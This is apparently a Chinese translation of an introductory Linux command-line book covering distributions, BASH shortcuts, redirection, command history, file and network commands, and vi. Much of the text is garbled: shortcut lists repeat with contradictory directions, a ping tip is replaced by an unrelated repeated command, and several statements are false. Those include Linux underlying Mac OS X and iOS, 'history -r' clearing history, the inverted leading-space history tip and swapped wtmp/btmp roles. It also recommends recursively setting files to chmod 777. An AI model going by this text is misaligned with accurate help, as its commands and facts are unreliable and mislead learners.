如果你发现你需要关于某个命令或工具的更多信息，请查看你可以使用的其他参考（例如帮助文件、网页等），以便获取更深入的信息。

我写这本书的目标是为你提供最快且希望最愉快的 Linux 介绍。它还旨在通过提供一组你可以尝试并查看结果的命令采样，帮助你更快地开始学习这个操作系统。

## 附加信息
- 内核 (`kernel.org`) Linux 内核信息的主站。
- Linux (`linux.org`) 关于 Linux 信息的主站。
- Linux Journal (`linuxjournal.com`) Linux 最新新闻和信息。

## 个人观点

首先，如果你是第一次开始学习 Linux，对某些人来说由于学习曲线的存在起可能会无所适从。意识到这个操作系统已经成熟了几十年，事物的某种特定方式运行是有原因的。例如，几个基础的控制台编辑命令在 `vi` 编辑器等实用程序中同样适用。

我想说的是，起初你不理解某个命令或概念，不要担心。你与它接触得越多，以后事情就会变得越通俗。不要让操作系统的复杂性压垮你。

## 警告

请自行承担风险并使用本书中的信息。所有内容可能随时更改。这不受我的控制。作者和出版商对使用本书内容可能引起的任何损坏或问题不承担责任。

我已尽力保持信息尽可能有用且相关。因此，如果您在使用我的某个命令时遇到问题，我深表歉意。请告知，我将尽力在书的后续版本中修复此问题。

不要在生产环境中测试这些命令。请先在开发区域进行测试，并确保它们在您的基础设施中能够正常工作。

这些某些命令可能会并破坏数据，因此**在使用它们之前，请确保您已经对数据进行了良好的测试备份。**

## 兼容性

Linux 命令、URL、*等等* 一直在不断更新、淘汰或被取代。因此，我无法保证您阅读本书时书中内容的准确性。导致准确性问题的因素还包括不同的发行版、发行版版本、shell、命令和实用程序。即使是制作发行版的公司和人员也一直在使用最新工具演进操作系统，并淘汰旧工具。

## 入门

**概述：** 本书侧重于 Linux 命令行。它没有为 X-Windows（Linux 的 GUI 图形用户界面）提供任何帮助。书中提提到它，但它不是重点。

本书的内容为 BASH（Bourne-Again Shell 的缩写）shell 编写。本书并不试图偏向某一个发行版，而是试图在具体问题上尽可能保持通用性。

以这种方式编写书的一个缺点是，我可能并不是针对您当前正在使用的 Linux 版本。如果您想要一本针对特定发行版的书，我建议您查看其他资源。

请注意，取决于您使用的发行版（又称 Distro），您可能使用另一个 shell（例如 `csh`, `tcsh`, `ksh`, `ash`, `zsh` 等）。如果您处于另一个 shell 中，只需在控制台中输入命令 `bash` 并按回车即可启动它。

如果您正在运行 X-Windows，只需启动命令行终端（通常称为 terminal 或 console）。否则，您可以完全退出 GUI，希望它能让您回到命令行界面。如果不是，您将需要查找如何在您的发行版中执行此操作。

## Linux 无处不在

Linux 似乎运行在一切设备上，从手表到大型机，以及其之间的所有设备。运行互联网的基础设施很大一部分是基于 Linux 的服务器。

运行在物理服务器、桌面、笔记本电脑、虚拟机、云基础设施*等等*上的操作系统有多个不同的版本/变体。它还是 Mac OS X、iOS、Android 的底层操作系统。大多数 IoT（物联网）设备，如树莓派以及无数其他类似设备。

***树莓派 3 B+ 单板计算机，由英国布拉德福的 Gareth Halfacree 设计。***

Windows 10 的最新版本现在包含一个 Linux 子系统，称为 WSL。这允许用户在原生 Windows 系统中启动 Linux 终端，而无需使用虚拟机或类似 Cygwin 的产品。

## Linux 核心哲学

如前所述，每个发行版处理问题的方式似乎略有不同，并有自己的方式/风格。尽管如此，大多数 Linux 版本都遵循一些通用哲学和原则，下文概述。

Linux 的核心是内核，它控制所有低层功能（例如应用程序与硬件之间的通信）。内核最初由 Linus Torvalds 设计，目前仍由他和其他许多人（`https://www.kernel.org/`）维护。Linux 内核由所有发行版共享。

三个主要的发行版，几乎所有可用的发行版都是基于这些 Linux 操作系统版本之一。

- **Debian** 是一个强调自由软件的发行版。它支持许多硬件平台。
- **Red Hat** Linux 是原始主要发行版之一，分为商业版和社区支持的发行版。社区支持的 Red Hat Linux 赞助版名为 Fedora，商业支持的版称为 Red Hat Enterprise Linux。
- **Slackware** 是一个高度定制的发行版，强调维护的便利性和可靠性，而非尖端软件和自动化工具。通常被认为是面向高级用户的发行版。

由于 Linux 最初基于 UNIX 的，因此它曾使用“运行级别”（runlevels），即描述系统相对于可用服务状态的操作层级。例如，如果系统使用运行级别 1，则它处于单用户模式。您通常处于运行级别 2-5 中，这是多用户模式。有关文件系统的更多信息，请参见后续章节“Linux 运行级别”。

**注意：** *大多数现代 Linux 发行版不再使用运行级别。运行级别技术不支持启动并行运行多个服务的系统。*

Linux 是一个完全多任务（一种同时执行多个任务的方法）、多用户操作系统，其服务进程被称为守护进程（daemons）。Linux 有四种账户：root、System、Normal、Network。root（超级用户，又称管理员）账户最强大，拥有对系统的完全访问权限。

新实用程序的安装过程取决于发行版。例如：

```
sudo yum install package_name
```
（基于 Red Hat 的系统上）或

```
sudo apt-get install package_name
```
（基于 Debian 的系统上）

**注意：** *安装新程序有多种不同方法。使用包管理器只是让安装新实用程序更容易。其他方法可能包括从 Git 下载仓库并进行编译，而其他程序可能需要不同的方法。*


Linux 在命令、选项、文件路径、*等等*方面是**区分大小写**的。如果您以前习惯于 Windows 等操作系统，这将是您必须适应的内容之一。在 Linux 文件系统的目录或文件名中，如 `/boot`、`/Boot` 和 `/BOOT` 代表不同的目录。

可用的命令、目录以及配置文件的位置在不同的 Linux 发行版之间可能会不同。开玩笑地说，“它们完全一样，除了不同之处之外。”您可能需要研究这些文件存储在哪里，以及它们在不同发行版中可能被命名。

任何具有 `.conf` 后缀的文件通常意味着它是一个持有应用程序配置的文本文件（例如 `yum.conf`）。Linux 通过文件或类似于文件的对象提供其组件。进程、设备和网络套接字由类文件对象表示，并且通常可以使用用于普通文件的相同工具进行操作。

之所以有许多命令和实用程序，是因为 Linux 的设计哲学。命令被设计用来很好地执行一个功能或操作。程序通常存储在以下路径之一：`/bin`, `/usr/bin`, `/sbin`, `/usr/sbin`。这会根据您使用的发行版和应用程序而变化。

默认情况下，所有权限（即使您以 root 登录）都将从基础用户账户安全下运行（因此您可以运行 `ls`, `cp`, `rm` 等命令）。需要提升权限的命令要求您在前面加上前缀命令 `sudo`（例如 `sudo command -options`）。在您按回车后，将需要您输入管理员密码并再次按回车。

每当你运行一个命令（例如 `ls`、`cp`、`rm` 等），这通常会启动一个在你用户账户下运行的进程。

**注意：** *每个进程都有一个进程 ID（即 PID），并会消耗某些系统资源。最明显的包括 CPU 时间、内存、打开的文件和设备。某些命令、实用程序或应用程序比其他的更消耗资源。*

几乎每个命令都有某些类型的选项（也称为参数）来扩展其功能。例如，如果你输入命令 `ls`，它将向你提供目录中的基本文件信息。如果你输入命令和选项 `ls -l`，它将将为你提供额外信息。如果你添加额外的选项，如 `ls -al`，它会显示一组之前未显示的额外文件。

在 Linux（以及其他 UNIX 类操作系统）中，整个系统无论涉及多少个物理存储设备，都由单一的树形结构表示。树形结构的根目录由 ‘/’ 表示。

当驱动器或分区上的文件系统被挂载到操作系统时，它必须加入现有的树形结构中。

**Linux 树形结构示例** `/`

| 路径 |
| :--- |
| `/bin` |
| `/boot` |
| `/dev` |
| `/etc` |
| `/home` |
| `/lib` |

**注意：** *文件系统层次结构标准 (FHS) 定义了 Linux 发行版的目录结构和内容。这个标准由 Linux 基金会维护。关于 FHS 的更多信息，请参见后续章节“**文件系统**层次结构标准**”

## 安装 Linux

**概述：** 本章涵盖了使用 Linux 发行版入门 Linux 的考虑因素。

有几种类型的发行版（即 Distros）可供选择。有些仅仅是 Linux 客户端，另一些用于服务器目的，还有一些用于通用目的，而另一些用于特定的用途。

第一步是根据你想做的事情选择合适的发行版。第二步是选择如何以及在何处安装你选择的发行版。

有时，这个选择将根据你尝试实现的目标或你可用的选项为你做决定。在其他情况下，它需要你根据最终结果对你想要使用的发行版进行研究。

### 选择发行版

市面上实际上有数百个发行版可供选择。这个列表远为不完整，仅提供了几个流行的选项。在选择任何发行版之前，一个主要的建议是确保它仍然由支持它的社区进行活跃开发。

取决于你尝试安装的应用程序，这决定了你可以使用的发行版和版本。其他的人对某一个发行版相对于另一个可能有个人偏好。

- **Debian**: 一种非商业发行版，也是最早的发行版之一，由志愿者开发者社区维护，该社区对自由软件原则和民主项目管理有坚决的承诺。（更多信息：https://www.debian.org/）
- **Ubuntu**: 一种源自 Debian 的桌面和服务器发行版，由英国 Canonical Ltd. 公司维护。（更多信息：https://www.ubuntu.com/）
- **Fedora**: 一个由 Red Hat 支持的社区支持发行版。该发行版是 Red Hat 商业 Linux 方案的技术测试平台，在将新的开源应用集成到其商业 Red Hat Enterprise Linux（红帽企业级 Linux）之前，对其进行原型设计。（更多信息：https://getfedora.org/）
- **Slackware**: 最初创建于 1993 年，它是最早的 Linux 发行版之一，也是仍在维护的最老的发行版之一。该发行版致力于保持高度类 UNIX 并且易于终端用户修改。（更多信息：http://www.slackware.com/）

**额外信息：**

DistroWatch (distrowatch.com) 关于发行版的最新信息

### 商业 Linux 发行版

仅仅 Linux 是免费开源的，并不意味着所有发行版都是免费的，并且不包含某些闭源软件（即任何非开源软件）。这是自由和开源软件（又称 FOSS）纯主义者的一个的争议点。

红帽（Red Hat）是 90 年代帮助 Linux 合法化的早期公司之一，包括为专业支持付费的想法。在此之前，所有的 Linux 支持都必须通过在线社区获得。

如果你是一个专业机构，例如企业或政府，那么你可能考虑使用一种商业 Linux 发行版，因为它们提供付费的 24x7 支持。当使用社区发行版时，支持模型是“尽力而为”（即不保证），当你处于关键时刻时，你并不希望听到这种话。

**红帽企业级 Linux** (RHEL) 是 Fedora 的衍生版本，由红帽维护并提供商业支持。它寻求为企业提供经过测试、安全且稳定的 Linux 服务器和工作站支持。

### 安装你的发行版

你可以在几种不同类别的设备（即物理、虚拟等）上安装并启动 Linux。这一决定应该根据你尝试实现的目标以最终目标为中心进行做出。否则，它应该根据你拥有的且被你想要运行的发行版支持的硬件做出。Linux 以在旧硬件上运行而闻名，而较新的操作系统可能不再支持这些硬件。在新计算机硬件上安装 Linux 时，主要的考虑因素是你想要使用的所有设备（即显卡、打印机等）的驱动程序的可用性。

你还可以在虚拟机 (VM) 上运行发行版，从虚拟机运行。这取决于你的虚拟机化程序或云环境支持哪些发行版。

Linux 还有“现场启动”（live boot）选项，你可以从 U 盘或光盘运行。这不使用本地存储，因此不会留下痕迹。

- **Knoppix**: 最早从可移动介质运行的 Linux 发行版之一，源自 Debian。

**注意：** *你的系统固件 (BIOS 或 UEFI) 必须能够从可移动介质启动（即光盘）。大多数系统通过启动菜单支持此功能。*

按下 `Ctrl+Alt+T`

**在 Mac OS X 设备上启动终端：** 要使用 Spotlight（聚焦）搜索来启动终端，请输入：`terminal` 并按回车。

**在 Windows 10 上启动终端**

如果你正在使用 Windows 10，可以使用虚拟机（VM）来运行该系统的实例，或者使用现在已包含在其中的新 Linux 子系统（称为 WSL）。

从“开始”菜单中启动你安装的发行版终端（Distro Terminal）。

**注意：** *要安装 Linux 子系统，请在管理员权限的 PowerShell 控制台中运行以下命令*

```
Enable-WindowsOptionalFeature -Online -FeatureName Microsoft-Windows-Subsystem-Linux
```
*然后，用户必须前往 Windows Store（https://aka.ms/wslstore）下载他们想要使用的 Linux 版本。*

### 更新系统

如果这是新安装的 Linux，或者它已经有一段时间没有更新了，你应该确保它是最新的，通过安装最新的库文件、应用程序修复程序和安全补丁。从安全的角度来看，这非常重要，因为它可以帮助防止你的系统被破解。

根据你所使用的发行版，此过程会有所不同。在两种情况下，第一个命令都会获取有关工具、库、*等等*的更新信息。第二个命令将执行更新。

对于基于 Debian 的发行版，运行以下命令（需要 root 权限）：`sudo apt-get update`, `sudo apt-get upgrade`

对于基于 Red Hat 的发行版，运行以下命令（需要 root 权限）：`sudo yum update`, `sudo yum upgrade`

### Linux Shell 简介

**概述：** 本书假设你已经知道如何登录操作系统，并且已经设置了具有适当权限的账户。此书还假设你已经登录到终端，并且它正在使用 BASH shell。


当你启动 Linux 时，它将以 GUI 模式或文本终端模式启动。如果你的系统以 GUI 模式启动，那么你需要启动一个控制台或终端会话。否则，请登录你将要使用的任何系统。

## 使用控制台

任何 shell 的主要目标都是通过提供所需的信息（即参数）来方便命令或脚本的执行。shell 提供的一些额外功能包括：变量、条件分支（即 `if` 语句）、循环、函数、*等等*，用于创建管理操作系统、文件、权限、*等等*的脚本。

你必须学习的第一也是最重要的事情是终端的编辑功能。你将最常用这些键盘快捷键，一旦你掌握了它们，它们会让你的终端生活变得更容易。

注意：终端使用一组相似的编辑功能键，这些键也被 `vi` 和其他类似的编辑器（例如 `vim`、`emacs` 等）使用。

### 键盘快捷键

在命令终端中编辑（注意：这些命令是 BASH shell 特有的，其他 shell 可能有不同的选项）

- 按 `Ctrl+A`（或按 `Home` 键）移动到行首。
- 按 `Ctrl+E`（或按 `End` 键）移动到行尾。
- 按 `Ctrl+L` 清除屏幕。

提示：如果终端出现问题，请输入：`reset`

- 按 `Ctrl+K` 删除到行尾的所有内容。
- 按 `Ctrl+D` 退出当前 shell。
- 按 `Ctrl+U` 剪切从当前光标位置到行首的文本。
- 按 `Ctrl+Y` 粘贴剪切的文本。
- 按 `Ctrl+W` 向后剪切一个单词。
- 按 `Ctrl+T` 交换光标前的两个字符。
- 按 `ESC+T` 交换光标前的两个单词。
- 按 `Ctrl+\]` 切换前/后台显示。
- 按 `Alt+F` 向后移动一个单词。
- 按 `Alt+B` 向前移动一个单词。
- 按 `Alt+D` 向后删除一个单词。
- 按 `Alt+Backspace` 向前删除一个单词。
- 按 `Ctrl+W` 向后删除一个单词。
- 按 `Ctrl+Backspace` 向前删除一个字符。
- 按 `Ctrl+Delete` 向后删除一个字符。
- 按 `Alt+Space` 向后删除一个字符。
- 按 `Alt+Backspace` 向前删除一个字符。
- 按 `Ctrl+Enter` 在下方插入换行。
- 按 `Ctrl+Home` 移动到行首。
- 按 `Ctrl+End` 移动到行尾。
- 按 `Ctrl+R` 搜索历史命令。
- 按 `Ctrl+U` 可以删除整行。
- 按 `Ctrl+K` 可以剪切从光标到行尾的内容。
- 按 `Ctrl+Y` 可以粘贴。
- 按 `Ctrl+W` 可以删除光标左侧的单词。
- 按 `Ctrl+A` 可以将光标移到行首。
- 按 `Ctrl+E` 可以将光标移到行尾。
- 按 `Ctrl+L` 清屏。
- 按 `Alt+F` 光标向右移动一个单词。
- 按 `Alt+B` 光标向左移动一个单词。
- 按 `Alt+D` 删除光标右侧的单词。
- 按 `Alt+Backspace` 删除光标左侧的单词。
- 按 `Ctrl+T` 交换光标前后的字符。
- 按 `ESC+T` 交换光标前两个单词。
- 按 `Ctrl+\]` 切换前/后台。

（注：由于原文在键盘快捷键部分存在部分文本重复和逻辑错乱，翻译时已根据通用 Bash 快捷键逻辑进行了整理优化）

## 内置命令

如前所述，BASH 具有几个内置命令，这意味着它们不需要安装，且无法被卸载。

这是内置命令与外部命令之间的另一个重要区别。外部命令会有与之关联的手页（man pages），而内置命令将列在帮助页面中。

内置命令部分列表

- `alias`：定义新的别名。如果没有给出输入，则显示现有的别名
- `bind`：显示或设置当前的 Readline 键位或函数绑定
- `echo`：输出参数，参数之间用空格分隔，并以换行符结束。

提示：要查看所有内置工具的完整列表，请输入：`help`

## 基于 GUI 的帮助系统

取决于你使用的 X-Windows（此处通常指 X-Window）桌面环境（GNOME 和 KDE），它会有不同的帮助系统。根据你使用的环境，输入以下命令之一：

- `gnome-help`：用于 GNOME 帮助
- 或 —
- `khelpcenter`：用于 KDE 帮助

## 命令管道与输出重定向

大多数命令和脚本都可能接受某种类型的标准输入（又称 `STDIN`）并写入标准输出（又称 `STDOUT`）。

`STDIN` 以参数或从命令或脚本传递的数据形式出现。

示例：如果你输入 `echo HelloWorld`，你正在将参数 `HelloWorld` 传递给 `echo` 命令。`echo` 命令会将输出显示在终端上。

注意：每个命令都自动连接了三个数据流。

- `STDIN` (0) - 标准输入（输入程序的数据）
- `STDOUT` (1) - 标准输出（程序打印的数据，默认输出到终端）
- `STDERR` (2) - 标准错误（用于错误消息，默认输出到终端）

`STDOUT` 是命令或脚本生成的数据，然后默认发送到终端。尽管如此，输出可以重定向到另一个命令并用输入，或者发送到打印机、文件等。

使用之前的示例，如果你输入 `echo HelloWorld`，`HelloWorld` 的输出将显示在终端上。

注意：此输出也可以使用 `>` 重定向到文件，例如：`echo HelloWorld > output_file.txt`

## 命令管道

管道将一个命令的输出重定向并发送到另一个命令进行处理。这是一个非常强大且广泛使用的操作符。它允许你从一个命令获取信息作为输出，并将其作为输入发送到另一个命令。

示例：

```
ls -al | less
```

（按 Q 退出，或使用方向键上下移动）

## 输出重定向

默认情况下，每个命令都从 `STDIN` 读取并写入 `STDOUT`。然而，你可以更改这一点并重定向输出。例如，你可以将输出重定向到文件。

有几种类型的重定向操作符执行不同的操作，因此了解它们之间的区别是非常重要的。

- `command > output_file` 将命令的 `STDOUT` 重定向到文件。

示例：

```
ls -l > ~/output_file.txt
cat ~/output_file.txt
```

注意：如果文件已存在，这将覆盖该文件。

- `command >> output_file` 将命令的 `STDOUT` 追加到现有文件中。

示例：

```
ls -l >> ~/output_file.txt
cat ~/output_file.txt
```

- `command 2> output_file` 将 `STDERR` 重定向到文件，或者在下面的示例中，它被重定向到 `/dev/null`，这样它就不会在控制台上显示任何内容。

示例：

```
ls -l / 2> /dev/null
```

- `command &> output_file` 将 `STDOUT` 和 `STDERR` 都重定向到文件，或者在下面的示例中，它们被重定向到 `/dev/null`，这样它们就不会在控制台上显示任何内容。

示例：

```
ls -l / &> /dev/null
```

- `command < input_file` 将文件内容重定向回命令（即将其作为输入）。

示例：

```
wc -l < input_file
```

- `2>&1` 将 `STDERR` 和 `STDOUT` 输出重定向到同一个文件

示例：

```
du / > output_file 2>&1
```

提示：通过将输出重定向到 `devnull`，控制台上不会显示任何内容。`devnull` 设备可以被认为一种黑洞，它具有无限的大小，但无法从中检索到任何内容。

注意：所有的重定向操作符有：`<`, `>`, `>|`, `<<`, `>>`, `&>`, `<>`。这些重定向操作符中的几个在本节之前已经讨论过，但还有另一些你可能较少使用或从不使用的。还有更晦晦的，但书中未涵盖，因为它们仅提供有限的价值或用于特殊情况场景。

- `cmd >| file`：覆盖文件，即使 shell 禁用了此功能。
- `cmd1>& cmd2`：将 `cmd1` 的 `STDERR` 和 `STDIN` 都重定向到 `cmd2`
- `cmd <> file`：在 `STDIN`（或 `cmd`）上打开一个文件进行读写。

## 进阶：使用命令替换

可以使用一个命令的输出作为输入，这被称为命令替换。要利用此功能，使用美元符号后跟括号。例如，输入 `$(date)`

命令替换的旧形式使用反引号（` \ `）来包围命令。例如，输入 `echo \date\`

## 进阶：变量扩展

变量扩展是在执行命令时将变量名替换为值。例如，执行 `echo $VAR`，它将显示变量的值。

提示：以下函数对调试很有用，因为它会显示结果：`() { echo "$@"; }`

## 基础 Shell 命令


# 概述

本章包含一组命令。这些命令用于执行基础系统功能和操作，例如管理命令历史、检查系统进程信息等。

你会发现 Linux 有一个非常强大的命令历史功能，具有许多快捷键和技巧可以方便访问以前使用的命令。

要查看你以前输入的命令列表，输入：`history`

注意：你输入的命令历史存储在文件中：`~/.bash_history`

要执行列表中的特定命令，输入：`!#` （将 `#` 替换为运行的命令编号（例如：`!100` ))

提示：如果你在命令前加一个空格，它将不会从 shell 历史记录中省略。

- 清除当前会话历史，输入：`history -r`
- 重新执行你输入的最后一个命令，输入：`!!`
- 以 root 权限重新运行上一个命令，输入：`sudo !!`
- 提示：重复上一个命令直到其执行成功，输入：`until !!; do :; done`
- 将上一个命令回显终端，输入：`!!:p`
- 在搜索历史中找到并执行匹配搜索字符串（即 `echo`）的最后一个命令，输入：`!?echo`
- 提示：要搜索并执行匹配字符串的最后一个命令，输入：`!?echo?:p`
- 重新执行上一个命令的选项，输入：`!$`
- 示例：列出一个目录文件夹，然后切换到该路径，输入：`ls /bin` (按回车) `cd !$` (按回车) 插入不带最后一个参数的最后一个命令，输入：`!:-`
- 按 `Ctrl+R` 反向搜索命令历史。
- 注意：这一次只能处理一个命令，按 `Ctrl+R` 下一个（按 `Ctrl+C` 取消）。
- 提示：从 `history` 命令获取更多信息（例如日期和时间），输入：`HISTTIMEFORMAT="%d/%m/%y %T " && history`
- 将运行过的最后一个长命令保存到脚本中：`echo "!!" > script_file.sh`
- 提示：按下 `ESC` 然后按 `*`（星号或 `TAB` 键）将插入自动补全的命令行结果，输入：`lsb_<ESC>\*`
- 注意：按下 `ESC` 然后按 `.`（点）将插入上一个命令的最后一个参数
- 查看 GB 为单位的空内存，输入：`free -g`
- 查看所有运行中的进程，输入：`ps -A`
- 如果有多个进程在运行，更实用的版本是输入：`ps -aux | less`
- 列出所有包含字符串（即 stuff）的运行进程：`ps aux | grep search_query`
- 查看当前日期和时间，输入：`date`
- 提示：显示美国西海岸下周三上午 10 点的本地时间，输入：`date --date='TZ="America/Los_Angeles" 09:00 next Fri'`
- 将你在 shell 中输入的任何内容（带时间戳）记录到名为 'typescript' 的文件中：`script -t 2> timing.txt -a session.txt`
- 在此处运行一些命令，完成后输入：`Ctrl+D` 或 `exit`。要回放记录的脚本，输入：`scriptreplay timing.txt session.txt`
- 显示你正在运行的发行版名称和版本，输入：`uname -a` OR— `lsb_release -a`
- 安装该命令，输入：`sudo apt-get install lsb` OR—`sudo yum install redhat-lsb-core`
- 检查发行版的另一种方法，输入：`cat /etc/issue`
- 查看你以什么用户名登录，输入：`whoami`
- 如果你不想学习 vi 或 vim 这样的文本编辑器，输入：`nano filename.txt`
- 注意：`nano` 是一个非常基础的文本编辑器，设计易于使用（它没有其他文本编辑器强大）。
- 创建一个可供脚本使用的变量，输入：`export test=HelloWorld` 显示变量内容，输入：`echo $test`
- 提示：要查看所有环境变量，输入：`env`
- 列出所有以字母 'S'（或任何其他字母）开头的定义变量，输入：`echo ${!S\*}` 
- 查看变量的内容，输入：`echo $SECONDS`
- 将文件从当前目录位置移动到之前所在的目录，输入：`mv file_name.ext $OLDPWD`
- 注意：`$OLDPWD` 是一个定义的变量，存储了你上次所在的目录。例如，输入：`cd /home` ，然后输入：`echo $OLDPWD` 。它将显示上一个目录的名称。
- 临时秒表（按 `Ctrl+D` 停止），输入：`time read`
- 需要帮助查找执行某操作的命令，输入：`apropos "directory"` OR— `apropos "file"`
- 查看当前年份或其他任何日期的日历，输入：`cal` OR- `cal -y` OR- `cal 2025`
- 显示系统运行时间（即操作系统启动以来的时间），输入：`uptime` OR— `uptime -p`
- 计时命令完成执行所需的时间，输入：`time ls -al /`
- 设置本地系统时间，输入：`sudo date --set="20:20:00"`
- 显示 ASCII 图表，输入：`man 7 ascii`

## 多用户系统管理

UNIX（以及后来的 Linux）从操作系统诞生之初就是多用户系统。Linux 有多个用于显示和管理登录用户的实用程序和命令。

- 显示当前登录用户的摘要，输入：`who` OR— `users`
- 显示用户最后一次登录系统的时间（包括真实用户 ID 和有效用户 ID），输入：`last user_name` OR— `last -ap`
- 显示系统上已知用户的信息，输入：`logins -u`

注意：`utmp`, `wtmp`, `btmp` 跟踪系统的所有登录和注销情况。这些文件被 `last` 和 `logins` 命令使用；`utmp` 维护当前状态的完整计数、系统启动时间（供 `uptime` 使用）、记录的终端、系统事件；`wtmp` 记录失败的登录尝试（包括它们上次运行的进程）；`btmp` 显示当前活动和登录用户的摘要。

## 文件系统命令

这些命令和工具执行基本功能，用于管理文件。Linux 拥有一套非常强大的用于管理设备、文件系统（包括分区和卷）以及相关文件的。关于文件系统的更多信息，请参阅“存储”章节。

| 格式 | 文件系统 | 已用 | 可用 |
| :--- | :--- | :--- | :--- |
| 常规 | root | 23701280 | 14417528 |
| 人类可读 | root | 227G | 138G | 89G |

- 以人类可读格式查看本地磁盘空间，输入：`df -h`
- 查看目录中的文件，输入：`ls` OR— `ls -al` 查看所有隐藏文件
- 注意：如果文件名开头有 '.'，则 '`ls`' 命令将无法显示它。
- 按大小排序文件（人类可读），输入：`ls -S`
- 提示：`ls -l`（详细格式列出目录）的快捷方式，输入：`ll`
- 切换路径到用户目录，输入：`cd ~` OR— 返回上一个目录，输入：`cd -`
- 注意：查看当前路径，输入：`pwd`
- 创建目录，输入：`mkdir folder_name`
- 复制文件，输入：`cp input_file output_file` 使用 `-r` 进行递归，输入：`cp -r dir1 dir2`
- 删除文件，输入：`rm file_name.ext`
- 警告：在使用破坏数据的命令配合通配符或其他递归功能时要格外小心，你可能会迅速删除大量无意删除的数据。
- 提示：删除所有非匹配字符串（即 `.txt`）的文件，输入：`rm !(.txt)`
- 删除文件夹，输入：`rmdir folder_name`
- 递归删除目录（例如子目录，`folder1/folder2/folder3`），输入：`rm -r folder_name`
- 提示：该命令是交互式的，在删除任何内容之前会询问权限，要使其不提示，输入：`rm -rf folder_name`
- 查找系统文件的位置，输入：`locate samba.conf`
- 查找文件所在位置，输入：`locate -i .bashrc`
- 注意：`locate` 命令通过搜索由 `updatedb` 命令维护的数据库工作。
- 查看文件内容，输入：`cat file_name.ext`

示例输出：
```
user@localhost:~$ cat text_file.txt Lorem ipsum dolor sit amet, consectetur adipiscing elit. In quis metus facilisis aliquam quis non nisl.
```
- 提示：要逐页查看文件内容，输入：`more file_name.ext`。 `less` 工具是 `more` 命令的高级版本，输入：`less file_name.ext`

要查找可执行文件的存储位置，请输入：`which mkdir`

提示：此命令的替代方案是，输入：`type -a mkdir`


要查找可执行文件的功能，请输入：
`whatis mkdir`

要将标准输出 (STDOUT) 显示在终端并同时写入文件，请输入：
`ls -l | tee file_name.ext`

要创建多个具有顺序命名的空文件（例如 file1, file2, file3 等），请输入：
`touch file_name{1..100}`

或—
`touch file_name{a..z}`

**示例输出：**
```
user@localhost:~$ touch file_name{1..100}
user@localhost:~$ ls -l
-rw-rw-rw-1 jane root 0 May 13 21:22 file_name1
-rw-rw-rw-1 jane root 0 May 13 21:22 file_name2
-rw-rw-rw-1 jane root 0 May 13 21:22 file_name3
...
```

**注意：** 大括号 `{}` 扩展允许你扩展一组字符。例如，`{1..100}` 将 1 到 100 之间的数字递增地添加到字符串或文件名中。例如，`{ a..z }` 将 A 到 Z 之间的字母递增地添加到字符串或文件名中。其他大括号扩展的示例，输入：
```
echo {0,1}{0..9}
echo {home\*,/root}/.\profile
```

在当前目录下所有文件中搜索字符串 `search_pattern`（末尾的 `*` 是搜索所有文件的通配符），请输入：
`grep -RnisI search_pattern *`

将长文件（即段落）重新格式化为短行，请输入：
`fmt file_name.txt`

**示例输出：**
```
user@localhost:~$ cat text_file.txt
Lorem ipsum dolor sit amet, consectetur adipiscing elit. In quis metus facilisis aliquam quis non nisl.
user@localhost:~$ fmt text_file.txt
Lorem ipsum dolor sit amet, consectetur adipiscing elit. In quis metus facilisis aliquam quis non nisl.
```

显示文件的详细统计信息和属性，请输入：
`stat file_name.ext`

**示例输出：**
```
user@localhost:~$ capture.jpg
File: 'capture.jpg' Size: 5278 Blocks: 16 IO Block: 512 regular file Device: 2h/2d
Inode: 83035118129644079 Links: 1
Access: (0666/-rw-rw-rw-) Uid: (1000/jane) Gid: (1000/jane)
Access: 2018-03-29 19:39:11.953837000 -0700
Modify: 2018-03-29 19:39:11.958023900 -0700
Change: 2018-05-13 21:05:23.751088300 -0700
Birth: -
```

将文件移动到特定目录，请输入：
`mv file_name1 path/to/directory`

Linux 没有特定的文件重命名命令，你必须使用 MV 来更改文件名，请输入：
`mv file_name1 file_name2`

显示关于文件类型的信息，请输入：
`file file_name.ext`

**示例输出：**
```
user@localhost:~$ capture.jpg
capture.jpg: JPEG image data, JFIF standard 1.01, resolution (DPCM), density 66x66, segment length 16, baseline, precision 8, 120x120, frames 3
```

更改文件的所有者，请输入：
`chown user1 path/to/file_name`

文件权限，请输入：
`chmod 644 path/to/file_name`

**注意：** 权限部分：所有者、所有组和其他其它（例如 754，`owner` = 所有，`group` = 读+执行，`world` = 读）。文件权限为：读 = 4，写 = 2，执行 = 1（例如，读(4)+写(2) = 6）

**提示：** 将 file2 的权限更改为与 file1 相同，输入：
`chmod --reference file_name1 file_name2`

递归更改当前路径下所有文件的权限，并忽略目录，请输入：
`find ./ -type f -exec chmod 777 {} \;`

显示目录占用了多少存储空间，请输入：
`du -sh /directory`

## 基础网络命令

这些命令和工具用于执行基础网络管理功能。例如，管理网络连接、显示网络信息等。Linux 有一套非常强大的命令支持网络。

如果你想查看系统的基本网络配置（如 IP 地址、子网掩码、MAC 地址等），请输入：
`ifconfig`

要查看数据包到达远程主机的传输路径（即必须经过的路由器和交换机），请输入：
`traceroute example.com`

**注意：** 关于 `IFCONFIG` 和 `TRACOUTE` 这两个弃用命令，请参见后续章节“弃用命令与替代工具”

检查远程地址是否可访问，请输入：
`ping example.com`

或 `ping 209.67.208.202`（按 Ctrl+C 命令）

**提示：** 当 IP 地址存活时，播放提示音，输入：
`type -a mkdir`

**提示：** 此命令的替代方案是，输入：
`type -a mkdir`

有一个比 vi 更新且改进的版本称为 vim，它是“Vi IM Improved”的缩写。它于1991年在 Amiga 计算机上首次公开发布。它与 vi 向后兼容，并包含了若干增强。

**注意：** 某些发行版仅包含 vim，并将 vi 的别名别了它。

## 启动程序

以下是启动文本编辑器的命令，更多选项可以在帮助文件中找到（例如 `man vim`）：

- `vi file` 编辑或创建文件（如果指定了则创建一个新文件）。
- `vi -r` 显示恢复的文件。
- `vi -r file` 恢复一个已恢复的文件。
- `vi +n file` 编辑文件并将光标置于第 (n) 行。

## 插入模式和命令模式

vi 有两种主要模式：插入模式和命令模式。本节包含了用到的核心概念，理解这两种模式之间的区别至关重要。

编辑器以命令模式启动，在此模式下可以进行光标移动以及文本的粘贴和删除。当激活插入模式（在命令模式下按下 "i" 或 "I" 键）时，用户可以进入并修改文件中的文本。按下 ESC 键（在插入模式下）将编辑器返回到命令模式（例如，通过输入 :x 可以保存并退出）。

在命令模式下，大多数命令在输入后立即执行，但“冒号”命令（例如 :q!）除外，它们在你按下回车键后执行。

## 退出程序

这些命令用于退出程序，并保存文件更改或放弃更改。

- `:x` 退出并保存更改
- `:wq file` 退出程序（如果指定了则创建一个新文件）
- `:q!` 退出（强制，即使未保存）
